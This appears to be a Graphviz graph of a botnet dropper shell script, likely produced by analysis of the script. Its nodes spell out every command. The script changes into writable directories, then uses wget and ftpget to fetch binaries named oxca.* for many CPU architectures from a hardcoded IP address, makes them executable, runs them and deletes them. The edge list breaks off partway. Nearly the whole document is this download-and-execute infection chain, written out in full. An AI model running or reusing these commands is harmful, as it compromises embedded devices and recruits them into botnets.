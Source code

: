 digraph {
2 [label=" cd /tmp"];
6 [label=" cd /var/run"];
10 [label=" cd /mnt"];
14 [label=" cd /root"];
18 [label=" cd /"];
22 [label=" wget http://185.158.112.178/oxca.mips"];
26 [label=" chmod +x oxca.mips"];
31 [label=" ./oxca.mips"];
34 [label=" rm -rf oxca.mips"];
39 [label=" cd /tmp"];
43 [label=" cd /var/run"];
47 [label=" cd /mnt"];
51 [label=" cd /root"];
55 [label=" cd /"];
59 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mips oxca.mips"];
72 [label=" chmod +x oxca.mips ./oxca.mips"];
78 [label=" rm -rf oxca.mips"];
83 [label=" /bin/busybox cd /tmp"];
88 [label=" /bin/busybox cd /var/run"];
93 [label=" /bin/busybox cd /mnt"];
98 [label=" /bin/busybox cd /root"];
103 [label=" /bin/busybox cd /"];
108 [label=" /bin/busybox wget http://185.158.112.178/oxca.mips"];
113 [label=" /bin/busybox chmod +x oxca.mips"];
119 [label=" ./oxca.mips"];
122 [label=" /bin/busybox rm -rf oxca.mips"];
128 [label=" /bin/busybox cd /tmp"];
133 [label=" /bin/busybox cd /var/run"];
138 [label=" /bin/busybox cd /mnt"];
143 [label=" /bin/busybox cd /root"];
148 [label=" /bin/busybox cd /"];
153 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mips oxca.mips"];
167 [label=" /bin/busybox chmod +x oxca.mips ./oxca.mips"];
174 [label=" /bin/busybox rm -rf oxca.mips"];
180 [label=" cd /tmp"];
184 [label=" cd /var/run"];
188 [label=" cd /mnt"];
192 [label=" cd /root"];
196 [label=" cd /"];
200 [label=" wget http://185.158.112.178/oxca.mpsl"];
204 [label=" chmod +x oxca.mpsl"];
209 [label=" ./oxca.mpsl"];
212 [label=" rm -rf oxca.mpsl"];
217 [label=" cd /tmp"];
221 [label=" cd /var/run"];
225 [label=" cd /mnt"];
229 [label=" cd /root"];
233 [label=" cd /"];
237 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mpsl oxca.mpsl"];
250 [label=" chmod +x oxca.mpsl ./oxca.mpsl"];
256 [label=" rm -rf oxca.mpsl"];
261 [label=" /bin/busybox cd /tmp"];
266 [label=" /bin/busybox cd /var/run"];
271 [label=" /bin/busybox cd /mnt"];
276 [label=" /bin/busybox cd /root"];
281 [label=" /bin/busybox cd /"];
286 [label=" /bin/busybox wget http://185.158.112.178/oxca.mpsl"];
291 [label=" /bin/busybox chmod +x oxca.mpsl"];
297 [label=" ./oxca.mpsl"];
300 [label=" /bin/busybox rm -rf oxca.mpsl"];
306 [label=" /bin/busybox cd /tmp"];
311 [label=" /bin/busybox cd /var/run"];
316 [label=" /bin/busybox cd /mnt"];
321 [label=" /bin/busybox cd /root"];
326 [label=" /bin/busybox cd /"];
331 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mpsl oxca.mpsl"];
345 [label=" /bin/busybox chmod +x oxca.mpsl ./oxca.mpsl"];
352 [label=" /bin/busybox rm -rf oxca.mpsl"];
358 [label=" cd /tmp"];
362 [label=" cd /var/run"];
366 [label=" cd /mnt"];
370 [label=" cd /root"];
374 [label=" cd /"];
378 [label=" wget http://185.158.112.178/oxca.sh4"];
382 [label=" chmod +x oxca.sh4"];
387 [label=" ./oxca.sh4"];
390 [label=" rm -rf oxca.sh4"];
395 [label=" cd /tmp"];
399 [label=" cd /var/run"];
403 [label=" cd /mnt"];
407 [label=" cd /root"];
411 [label=" cd /"];
415 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.sh4 oxca.sh4"];
428 [label=" chmod +x oxca.sh4 ./oxca.sh4"];
434 [label=" rm -rf oxca.sh4"];
439 [label=" /bin/busybox cd /tmp"];
444 [label=" /bin/busybox cd /var/run"];
449 [label=" /bin/busybox cd /mnt"];
454 [label=" /bin/busybox cd /root"];
459 [label=" /bin/busybox cd /"];
464 [label=" /bin/busybox wget http://185.158.112.178/oxca.sh4"];
469 [label=" /bin/busybox chmod +x oxca.sh4"];
475 [label=" ./oxca.sh4"];
478 [label=" /bin/busybox rm -rf oxca.sh4"];
484 [label=" /bin/busybox cd /tmp"];
489 [label=" /bin/busybox cd /var/run"];
494 [label=" /bin/busybox cd /mnt"];
499 [label=" /bin/busybox cd /root"];
504 [label=" /bin/busybox cd /"];
509 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.sh4 oxca.sh4"];
523 [label=" /bin/busybox chmod +x oxca.sh4 ./oxca.sh4"];
530 [label=" /bin/busybox rm -rf oxca.sh4"];
536 [label=" cd /tmp"];
540 [label=" cd /var/run"];
544 [label=" cd /mnt"];
548 [label=" cd /root"];
552 [label=" cd /"];
556 [label=" wget http://185.158.112.178/oxca.x86"];
560 [label=" chmod +x oxca.x86"];
565 [label=" ./oxca.x86"];
568 [label=" rm -rf oxca.x86"];
573 [label=" cd /tmp"];
577 [label=" cd /var/run"];
581 [label=" cd /mnt"];
585 [label=" cd /root"];
589 [label=" cd /"];
593 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.x86 oxca.x86"];
606 [label=" chmod +x oxca.x86 ./oxca.x86"];
612 [label=" rm -rf oxca.x86"];
617 [label=" /bin/busybox cd /tmp"];
622 [label=" /bin/busybox cd /var/run"];
627 [label=" /bin/busybox cd /mnt"];
632 [label=" /bin/busybox cd /root"];
637 [label=" /bin/busybox cd /"];
642 [label=" /bin/busybox wget http://185.158.112.178/oxca.x86"];
647 [label=" /bin/busybox chmod +x oxca.x86"];
653 [label=" ./oxca.x86"];
656 [label=" /bin/busybox rm -rf oxca.x86"];
662 [label=" /bin/busybox cd /tmp"];
667 [label=" /bin/busybox cd /var/run"];
672 [label=" /bin/busybox cd /mnt"];
677 [label=" /bin/busybox cd /root"];
682 [label=" /bin/busybox cd /"];
687 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.x86 oxca.x86"];
701 [label=" /bin/busybox chmod +x oxca.x86 ./oxca.x86"];
708 [label=" /bin/busybox rm -rf oxca.x86"];
714 [label=" cd /tmp"];
718 [label=" cd /var/run"];
722 [label=" cd /mnt"];
726 [label=" cd /root"];
730 [label=" cd /"];
734 [label=" wget http://185.158.112.178/oxca.arm61"];
738 [label=" chmod +x oxca.arm61"];
743 [label=" ./oxca.arm61"];
746 [label=" rm -rf oxca.arm61"];
751 [label=" cd /tmp"];
755 [label=" cd /var/run"];
759 [label=" cd /mnt"];
763 [label=" cd /root"];
767 [label=" cd /"];
771 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm61 oxca.arm61"];
784 [label=" chmod +x oxca.arm61 ./oxca.arm61"];
790 [label=" rm -rf oxca.arm61"];
795 [label=" /bin/busybox cd /tmp"];
800 [label=" /bin/busybox cd /var/run"];
805 [label=" /bin/busybox cd /mnt"];
810 [label=" /bin/busybox cd /root"];
815 [label=" /bin/busybox cd /"];
820 [label=" /bin/busybox wget http://185.158.112.178/oxca.arm61"];
825 [label=" /bin/busybox chmod +x oxca.arm61"];
831 [label=" ./oxca.arm61"];
834 [label=" /bin/busybox rm -rf oxca.arm61"];
840 [label=" /bin/busybox cd /tmp"];
845 [label=" /bin/busybox cd /var/run"];
850 [label=" /bin/busybox cd /mnt"];
855 [label=" /bin/busybox cd /root"];
860 [label=" /bin/busybox cd /"];
865 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm61 oxca.arm61"];
879 [label=" /bin/busybox chmod +x oxca.arm61 ./oxca.arm61"];
886 [label=" /bin/busybox rm -rf oxca.arm61"];
892 [label=" cd /tmp"];
896 [label=" cd /var/run"];
900 [label=" cd /mnt"];
904 [label=" cd /root"];
908 [label=" cd /"];
912 [label=" wget http://185.158.112.178/oxca.i686"];
916 [label=" chmod +x oxca.i686"];
921 [label=" ./oxca.i686"];
924 [label=" rm -rf oxca.i686"];
929 [label=" cd /tmp"];
933 [label=" cd /var/run"];
937 [label=" cd /mnt"];
941 [label=" cd /root"];
945 [label=" cd /"];
949 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i686 oxca.i686"];
962 [label=" chmod +x oxca.i686 ./oxca.i686"];
968 [label=" rm -rf oxca.i686"];
973 [label=" /bin/busybox cd /tmp"];
978 [label=" /bin/busybox cd /var/run"];
983 [label=" /bin/busybox cd /mnt"];
988 [label=" /bin/busybox cd /root"];
993 [label=" /bin/busybox cd /"];
998 [label=" /bin/busybox wget http://185.158.112.178/oxca.i686"];
1003 [label=" /bin/busybox chmod +x oxca.i686"];
1009 [label=" ./oxca.i686"];
1012 [label=" /bin/busybox rm -rf oxca.i686"];
1018 [label=" /bin/busybox cd /tmp"];
1023 [label=" /bin/busybox cd /var/run"];
1028 [label=" /bin/busybox cd /mnt"];
1033 [label=" /bin/busybox cd /root"];
1038 [label=" /bin/busybox cd /"];
1043 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i686 oxca.i686"];
1057 [label=" /bin/busybox chmod +x oxca.i686 ./oxca.i686"];
1064 [label=" /bin/busybox rm -rf oxca.i686"];
1070 [label=" cd /tmp"];
1074 [label=" cd /var/run"];
1078 [label=" cd /mnt"];
1082 [label=" cd /root"];
1086 [label=" cd /"];
1090 [label=" wget http://185.158.112.178/oxca.ppc"];
1094 [label=" chmod +x oxca.ppc"];
1099 [label=" ./oxca.ppc"];
1102 [label=" rm -rf oxca.ppc"];
1107 [label=" cd /tmp"];
1111 [label=" cd /var/run"];
1115 [label=" cd /mnt"];
1119 [label=" cd /root"];
1123 [label=" cd /"];
1127 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc oxca.ppc"];
1140 [label=" chmod +x oxca.ppc ./oxca.ppc"];
1146 [label=" rm -rf oxca.ppc"];
1151 [label=" /bin/busybox cd /tmp"];
1156 [label=" /bin/busybox cd /var/run"];
1161 [label=" /bin/busybox cd /mnt"];
1166 [label=" /bin/busybox cd /root"];
1171 [label=" /bin/busybox cd /"];
1176 [label=" /bin/busybox wget http://185.158.112.178/oxca.ppc"];
1181 [label=" /bin/busybox chmod +x oxca.ppc"];
1187 [label=" ./oxca.ppc"];
1190 [label=" /bin/busybox rm -rf oxca.ppc"];
1196 [label=" /bin/busybox cd /tmp"];
1201 [label=" /bin/busybox cd /var/run"];
1206 [label=" /bin/busybox cd /mnt"];
1211 [label=" /bin/busybox cd /root"];
1216 [label=" /bin/busybox cd /"];
1221 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc oxca.ppc"];
1235 [label=" /bin/busybox chmod +x oxca.ppc ./oxca.ppc"];
1242 [label=" /bin/busybox rm -rf oxca.ppc"];
1248 [label=" cd /tmp"];
1252 [label=" cd /var/run"];
1256 [label=" cd /mnt"];
1260 [label=" cd /root"];
1264 [label=" cd /"];
1268 [label=" wget http://185.158.112.178/oxca.i586"];
1272 [label=" chmod +x oxca.i586"];
1277 [label=" ./oxca.i586"];
1280 [label=" rm -rf oxca.i586"];
1285 [label=" cd /tmp"];
1289 [label=" cd /var/run"];
1293 [label=" cd /mnt"];
1297 [label=" cd /root"];
1301 [label=" cd /"];
1305 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i586 oxca.i586"];
1318 [label=" chmod +x oxca.i586 ./oxca.i586"];
1324 [label=" rm -rf oxca.i586"];
1329 [label=" /bin/busybox cd /tmp"];
1334 [label=" /bin/busybox cd /var/run"];
1339 [label=" /bin/busybox cd /mnt"];
1344 [label=" /bin/busybox cd /root"];
1349 [label=" /bin/busybox cd /"];
1354 [label=" /bin/busybox wget http://185.158.112.178/oxca.i586"];
1359 [label=" /bin/busybox chmod +x oxca.i586"];
1365 [label=" ./oxca.i586"];
1368 [label=" /bin/busybox rm -rf oxca.i586"];
1374 [label=" /bin/busybox cd /tmp"];
1379 [label=" /bin/busybox cd /var/run"];
1384 [label=" /bin/busybox cd /mnt"];
1389 [label=" /bin/busybox cd /root"];
1394 [label=" /bin/busybox cd /"];
1399 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i586 oxca.i586"];
1413 [label=" /bin/busybox chmod +x oxca.i586 ./oxca.i586"];
1420 [label=" /bin/busybox rm -rf oxca.i586"];
1426 [label=" cd /tmp"];
1430 [label=" cd /var/run"];
1434 [label=" cd /mnt"];
1438 [label=" cd /root"];
1442 [label=" cd /"];
1446 [label=" wget http://185.158.112.178/oxca.m68k"];
1450 [label=" chmod +x oxca.m68k"];
1455 [label=" ./oxca.m68k"];
1458 [label=" rm -rf oxca.m68k"];
1463 [label=" cd /tmp"];
1467 [label=" cd /var/run"];
1471 [label=" cd /mnt"];
1475 [label=" cd /root"];
1479 [label=" cd /"];
1483 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.m68k oxca.m68k"];
1496 [label=" chmod +x oxca.m68k ./oxca.m68k"];
1502 [label=" rm -rf oxca.m68k"];
1507 [label=" /bin/busybox cd /tmp"];
1512 [label=" /bin/busybox cd /var/run"];
1517 [label=" /bin/busybox cd /mnt"];
1522 [label=" /bin/busybox cd /root"];
1527 [label=" /bin/busybox cd /"];
1532 [label=" /bin/busybox wget http://185.158.112.178/oxca.m68k"];
1537 [label=" /bin/busybox chmod +x oxca.m68k"];
1543 [label=" ./oxca.m68k"];
1546 [label=" /bin/busybox rm -rf oxca.m68k"];
1552 [label=" /bin/busybox cd /tmp"];
1557 [label=" /bin/busybox cd /var/run"];
1562 [label=" /bin/busybox cd /mnt"];
1567 [label=" /bin/busybox cd /root"];
1572 [label=" /bin/busybox cd /"];
1577 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.m68k oxca.m68k"];
1591 [label=" /bin/busybox chmod +x oxca.m68k ./oxca.m68k"];
1598 [label=" /bin/busybox rm -rf oxca.m68k"];
1604 [label=" cd /tmp"];
1608 [label=" cd /var/run"];
1612 [label=" cd /mnt"];
1616 [label=" cd /root"];
1620 [label=" cd /"];
1624 [label=" wget http://185.158.112.178/oxca.spc"];
1628 [label=" chmod +x oxca.spc"];
1633 [label=" ./oxca.spc"];
1636 [label=" rm -rf oxca.spc"];
1641 [label=" cd /tmp"];
1645 [label=" cd /var/run"];
1649 [label=" cd /mnt"];
1653 [label=" cd /root"];
1657 [label=" cd /"];
1661 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.spc oxca.spc"];
1674 [label=" chmod +x oxca.spc ./oxca.spc"];
1680 [label=" rm -rf oxca.spc"];
1685 [label=" /bin/busybox cd /tmp"];
1690 [label=" /bin/busybox cd /var/run"];
1695 [label=" /bin/busybox cd /mnt"];
1700 [label=" /bin/busybox cd /root"];
1705 [label=" /bin/busybox cd /"];
1710 [label=" /bin/busybox wget http://185.158.112.178/oxca.spc"];
1715 [label=" /bin/busybox chmod +x oxca.spc"];
1721 [label=" ./oxca.spc"];
1724 [label=" /bin/busybox rm -rf oxca.spc"];
1730 [label=" /bin/busybox cd /tmp"];
1735 [label=" /bin/busybox cd /var/run"];
1740 [label=" /bin/busybox cd /mnt"];
1745 [label=" /bin/busybox cd /root"];
1750 [label=" /bin/busybox cd /"];
1755 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.spc oxca.spc"];
1769 [label=" /bin/busybox chmod +x oxca.spc ./oxca.spc"];
1776 [label=" /bin/busybox rm -rf oxca.spc"];
1782 [label=" cd /tmp"];
1786 [label=" cd /var/run"];
1790 [label=" cd /mnt"];
1794 [label=" cd /root"];
1798 [label=" cd /"];
1802 [label=" wget http://185.158.112.178/oxca.arm41"];
1806 [label=" chmod +x oxca.arm41"];
1811 [label=" ./oxca.arm41"];
1814 [label=" rm -rf oxca.arm41"];
1819 [label=" cd /tmp"];
1823 [label=" cd /var/run"];
1827 [label=" cd /mnt"];
1831 [label=" cd /root"];
1835 [label=" cd /"];
1839 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm41 oxca.arm41"];
1852 [label=" chmod +x oxca.arm41 ./oxca.arm41"];
1858 [label=" rm -rf oxca.arm41"];
1863 [label=" /bin/busybox cd /tmp"];
1868 [label=" /bin/busybox cd /var/run"];
1873 [label=" /bin/busybox cd /mnt"];
1878 [label=" /bin/busybox cd /root"];
1883 [label=" /bin/busybox cd /"];
1888 [label=" /bin/busybox wget http://185.158.112.178/oxca.arm41"];
1893 [label=" /bin/busybox chmod +x oxca.arm41"];
1899 [label=" ./oxca.arm41"];
1902 [label=" /bin/busybox rm -rf oxca.arm41"];
1908 [label=" /bin/busybox cd /tmp"];
1913 [label=" /bin/busybox cd /var/run"];
1918 [label=" /bin/busybox cd /mnt"];
1923 [label=" /bin/busybox cd /root"];
1928 [label=" /bin/busybox cd /"];
1933 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm41 oxca.arm41"];
1947 [label=" /bin/busybox chmod +x oxca.arm41 ./oxca.arm41"];
1954 [label=" /bin/busybox rm -rf oxca.arm41"];
1960 [label=" cd /tmp"];
1964 [label=" cd /var/run"];
1968 [label=" cd /mnt"];
1972 [label=" cd /root"];
1976 [label=" cd /"];
1980 [label=" wget http://185.158.112.178/oxca.arm51"];
1984 [label=" chmod +x oxca.arm51"];
1989 [label=" ./oxca.arm51"];
1992 [label=" rm -rf oxca.arm51"];
1997 [label=" cd /tmp"];
2001 [label=" cd /var/run"];
2005 [label=" cd /mnt"];
2009 [label=" cd /root"];
2013 [label=" cd /"];
2017 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm51 oxca.arm51"];
2030 [label=" chmod +x oxca.arm51 ./oxca.arm51"];
2036 [label=" rm -rf oxca.arm51"];
2041 [label=" /bin/busybox cd /tmp"];
2046 [label=" /bin/busybox cd /var/run"];
2051 [label=" /bin/busybox cd /mnt"];
2056 [label=" /bin/busybox cd /root"];
2061 [label=" /bin/busybox cd /"];
2066 [label=" /bin/busybox wget http://185.158.112.178/oxca.arm51"];
2071 [label=" /bin/busybox chmod +x oxca.arm51"];
2077 [label=" ./oxca.arm51"];
2080 [label=" /bin/busybox rm -rf oxca.arm51"];
2086 [label=" /bin/busybox cd /tmp"];
2091 [label=" /bin/busybox cd /var/run"];
2096 [label=" /bin/busybox cd /mnt"];
2101 [label=" /bin/busybox cd /root"];
2106 [label=" /bin/busybox cd /"];
2111 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm51 oxca.arm51"];
2125 [label=" /bin/busybox chmod +x oxca.arm51 ./oxca.arm51"];
2132 [label=" /bin/busybox rm -rf oxca.arm51"];
2138 [label=" cd /tmp"];
2142 [label=" cd /var/run"];
2146 [label=" cd /mnt"];
2150 [label=" cd /root"];
2154 [label=" cd /"];
2158 [label=" wget http://185.158.112.178/oxca.ppc440"];
2162 [label=" chmod +x oxca.ppc440"];
2167 [label=" ./oxca.ppc440"];
2170 [label=" rm -rf oxca.ppc440"];
2175 [label=" cd /tmp"];
2179 [label=" cd /var/run"];
2183 [label=" cd /mnt"];
2187 [label=" cd /root"];
2191 [label=" cd /"];
2195 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc440 oxca.ppc440"];
2208 [label=" chmod +x oxca.ppc440 ./oxca.ppc440"];
2214 [label=" rm -rf oxca.ppc440"];
2219 [label=" /bin/busybox cd /tmp"];
2224 [label=" /bin/busybox cd /var/run"];
2229 [label=" /bin/busybox cd /mnt"];
2234 [label=" /bin/busybox cd /root"];
2239 [label=" /bin/busybox cd /"];
2244 [label=" /bin/busybox wget http://185.158.112.178/oxca.ppc440"];
2249 [label=" /bin/busybox chmod +x oxca.ppc440"];
2255 [label=" ./oxca.ppc440"];
2258 [label=" /bin/busybox rm -rf oxca.ppc440"];
2264 [label=" /bin/busybox cd /tmp"];
2269 [label=" /bin/busybox cd /var/run"];
2274 [label=" /bin/busybox cd /mnt"];
2279 [label=" /bin/busybox cd /root"];
2284 [label=" /bin/busybox cd /"];
2289 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc440 oxca.ppc440"];
2303 [label=" /bin/busybox chmod +x oxca.ppc440 ./oxca.ppc440"];
2310 [label=" /bin/busybox rm -rf oxca.ppc440"];
2 -> 6;
2 -> 22;
6 -> 10;
6 -> 22;
10 -> 14;
10 -> 22;
14 -> 18;
14 -> 22;
18 -> 22;
22 -> 26;
26 -> 31;
31 -> 34;
34 -> 39;
39 -> 43;
39 -> 59;
43 -> 47;
43 -> 59;
47 -> 51;
47 -> 59;
51 -> 55;
51 -> 59;
55 -> 59;
59 -> 72;
72 -> 78;
78 -> 83;
83 -> 88;
83 -> 108;
88 -> 93;
88 -> 108;
93 -> 98;
93 -> 108;
98 -> 103;
98 -> 108;
103 -> 108;
108 -> 113;
113 -> 119;
119 -> 122;
122 -> 128;
128 -> 133;
128 -> 153;
133 -> 138;
133 -> 153;
138 -> 143;
138 -> 153;
143 -> 148;
143 -> 153;
148 -> 153;
153 -> 167;
167 -> 174;
174 -> 180;
180 -> 184;
180 -> 200;
184 -> 188;
184 -> 200;
188 -> 192;
188 -> 200;
192 -> 196;
192 -> 200;
196 -> 200;
200 -> 204;
204 -> 209;
209 -> 212;
212 -> 217;
217 -> 221;
217 -> 237;
221 -> 225;
221 -> 237;
225 -> 229;
225 -> 237;
229 -> 233;
229 -> 237;
233 -> 237;
237 -> 250;
250 -> 256;
256 -> 261;
261 -> 266;
261 -> 286;
266 -> 271;
266 -> 286;
271 -> 276;
271 -> 286;
276 -> 281;
276 -> 286;
281 -> 286;
286 -> 291;
291 -> 297;
297 -> 300;
300 -> 306;
306 -> 311;
306 -> 331;
311 -> 316;
311 -> 331;
316 -> 321;
316 -> 331;
321 -> 326;
321 -> 331;
326 -> 331;
331 -> 345;
345 -> 352;
352 -> 358;
358 -> 362;
358 -> 378;
362 -> 366;
362 -> 378;
366 -> 370;
366 -> 378;
370 -> 374;
370 -> 378;
374 -> 378;
378 -> 382;
382 -> 387;
387 -> 390;
390 -> 395;
395 -> 399;
395 -> 415;
399 -> 403;
399 -> 415;
403 -> 407;
403 -> 415;
407 -> 411;
407 -> 415;
411 -> 415;
415 -> 428;
428 -> 434;
434 -> 439;
439 -> 444;
439 -> 464;
444 -> 449;
444 -> 464;
449 -> 454;
449 -> 464;
454 -> 459;
454 -> 464;
459 -> 464;
464 -> 469;
469 -> 475;
475 -> 478;
478 -> 484;
484 -> 489;
484 -> 509;
489 -> 494;
489 -> 509;
494 -> 499;
494 -> 509;
499 -> 504;
499 -> 509;
504 -> 509;
509 -> 523;
523 -> 530;
530 -> 536;
536 -> 540;
536 -> 556;
540 -> 544;
540 -> 556;
544 -> 548;
544 -> 556;
548 -> 552;
548 -> 556;
552 -> 556;
556 -> 560;
560 -> 565;
565 -> 568;
568 -> 573;
573 -> 577;
573 -> 593;
577 -> 581;
577 -> 593;
581 -> 585;
581 -> 593;
585 -> 589;
585 -> 593;
589 -> 593;
593 -> 606;
606 -> 612;
612 -> 617;
617 -> 622;
617 -> 642;
622 -> 627;
622 -> 642;
627 -> 632;
627 -> 642;
632 -> 637;
632 -> 642;
637 -> 642;
642 -> 647;
647 -> 653;
653 -> 656;
656 -> 662;
662 -> 667;
662 -> 687;
667 -> 672;
667 -> 687;
672 -> 677;
672 -> 687;
677 -> 682;
677 -> 687;
682 -> 687;
687 -> 701;
701 -> 708;
708 -> 714;
714 -> 718;
714 -> 734;
718 -> 722;
718 -> 734;
722 -> 726;
722 -> 734;
726 -> 730;
726 -> 734;
730 -> 734;
734 -> 738;
738 -> 743;
743 -> 746;
746 -> 751;
751 -> 755;
751 -> 771;
755 -> 759;
755 -> 771;
759 -> 763;
759 -> 771;
763 -> 767;
763 -> 771;
767 -> 771;
771 -> 784;
784 -> 790;
790 -> 795;
795 -> 800;
795 -> 820;
800 -> 805;
800 -> 820;
805 -> 810;
805 -> 820;
810 -> 815;
810 -> 820;
815 -> 820;
820 -> 825;
825 -> 831;
831 -> 834;
834 -> 840;
840 -> 845;
840 -> 865;
845 -> 850;
845 -> 865;
850 -> 855;
850 -> 865;
855 -> 860;
855 -> 865;
860 -> 865;
865 -> 879;
879 -> 886;
886 -> 892;
892 -> 896;
892 -> 912;
896 -> 900;
896 -> 912;
900 -> 904;
900 -> 912;
904 -> 908;
904 -> 912;
908 -> 912;
912 -> 916;
916 -> 921;
921 -> 924;
924 -> 929;
929 -> 933;
929 -> 949;
933 -> 937;
933 -> 949;
937 -> 941;
937 -> 949;
941 -> 945;
941 -> 949;
945 -> 949;
949 -> 962;
962 -> 968;
968 -> 973;
973 -> 978;
973 -> 998;
978 -> 983;
978 -> 998;
983 -> 988;
983 -> 998;
988 -> 993;
988 -> 998;
993 -> 998;
998 -> 1003;
1003 -> 1009;
1009 -> 1012;
1012 -> 1018;
1018 -> 1023;
1018 -> 1043;
1023 -> 1028;
1023 -> 1043;
1028 -> 1033;
1028 -> 1043;
1033 -> 1038;
1033 -> 1043;
1038 -> 1043;
1043 -> 1057;
1057 -> 1064;
1064 -> 1070;
1070 -> 1074;
1070 -> 1090;
1074 -> 1078;
1074 -> 1090;
1078 -> 1082;
1078 -> 1090;
1082 -> 1086;
1082 -> 1090;
1086 -> 1090;
1090 -> 1094;
1094 -> 1099;
1099 -> 1102;
1102 -> 1107;
1107 -> 1111;
1107 -> 1127;
1111 -> 1115;
1111 -> 1127;
1115 -> 1119;
1115 -> 1127;
1119 -> 1123;
1119 -> 1127;
1123 -> 1127;
1127 -> 1140;
1140 -> 1146;
1146 -> 1151;
1151 -> 1156;
1151 -> 1176;
1156 -> 1161;
1156 -> 1176;
1161 -> 1166;
1161 -> 1176;
1166 -> 1171;
1166 -> 1176;
1171 -> 1176;
1176 -> 1181;
1181 -> 1187;
1187 -> 1190;
1190 -> 1196;
1196 -> 1201;
1196 -> 1221;
1201 -> 1206;
1201 -> 1221;
1206 -> 1211;
1206 -> 1221;
1211 -> 1216;
1211 -> 1221;
1216 -> 1221;
1221 -> 1235;
1235 -> 1242;
1242 -> 1248;
1248 -> 1252;
1248 -> 1268;
1252 -> 1256;
1252 -> 1268;
1256 -> 1260;
1256 -> 1268;
1260 -> 1264;
1260 -> 1268;
1264 -> 1268;
1268 -> 1272;
1272 -> 1277;
1277 -> 1280;
1280 -> 1285;
1285 -> 1289;
1285 -> 1305;
1289 -> 1293;
1289 -> 1305;
1293 -> 1297;
1293 -> 1305;
1297 -> 1301;
1297 -> 1305;
1301 -> 1305;
1305 -> 1318;
1318 -> 1324;
1324 -> 1329;
1329 -> 1334;
1329 -> 1354;
1334 -> 1339;
1334 -> 1354;
1339 -> 1344;
1339 -> 1354;
1344 -> 1349;
1344 -> 1354;
1349 -> 1354;
1354 -> 1359;
1359 -> 1365;
1365 -> 1368;
1368 -> 1374;
1374 -> 1379;
1374 -> 1399;
1379 -> 1384;
1379 -> 1399;
1384 -> 1389;
1384 -> 1399;
1389 -> 1394;
1389 -> 1399;
1394 -> 1399;
1399 -> 1413;
1413 -> 1420;
1420 -> 1426;
1426 -> 1430;
1426 -> 1446;
1430 -> 1434;
1430 -> 1446;
1434 -> 1438;
1434 -> 1446;
1438 -> 1442;
1438 -> 1446;
1442 -> 1446;
1446 -> 1450;
1450 -> 1455;
1455 -> 1458;
1458 -> 1463;
1463 -> 1467;
1463 -> 1483;
1467 -> 1471;
1467 -> 1483;
1471 -> 1475;
1471 -> 1483;
1475 -> 1479;
1475 -> 1483;
1479 -> 1483;
1483 -> 1496;
1496 -> 1502;
1502 -> 1507;
1507 -> 1512;
1507 -> 1532;
1512 -> 1517;
1512 -> 1532;
1517 -> 1522;
1517 -> 1532;
1522 -> 1527;
1522 -> 1532;
1527 -> 1532;
1532 -> 1537;
1537 -> 1543;
1543 -> 1546;
1546 -> 1552;
1552 -> 1557;
1552 -> 1577;
1557 -> 1562;
1557 -> 1577;
1562 -> 1567;
1562 -> 1577;
1567 -> 1572;
1567 -> 1577;
1572 -> 1577;
1577 -> 1591;
1591 -> 1598;
1598 -> 1604;
1604 -> 1608;
1604 -> 1624;
1608 -> 1612;
1608 -> 1624;
1612 -> 1616;
1612 -> 1624;
1616 -> 1620;
1616 -> 1624;
1620 -> 1624;
1624 -> 1628;
1628 -> 1633;
1633 -> 1636;
1636 -> 1641;
1641 -> 1645;
1641 -> 1661;
1645 -> 1649;
1645 -> 1661;
1649 -> 1653;
1649 -> 1661;
1653 -> 1657;
1653 -> 1661;
1657 -> 1661;
1661 -> 1674;
1674 -> 1680;
1680 -> 1685;
1685 -> 1690;
